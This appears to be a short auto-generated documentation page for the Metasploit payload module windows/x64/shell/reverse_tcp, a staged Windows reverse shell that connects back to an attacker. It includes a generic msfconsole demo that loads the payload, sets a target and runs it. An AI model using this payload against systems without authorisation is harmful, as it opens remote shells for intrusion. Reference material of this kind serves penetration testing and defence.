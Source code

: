 ## Windows x64 Command Shell, Windows x64 Reverse TCP Stager

Spawn a piped command shell (Windows x64) (staged). Connect 
back to the attacker (Windows x64)


## Module Name
payload/windows/x64/shell/reverse_tcp

## Authors
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    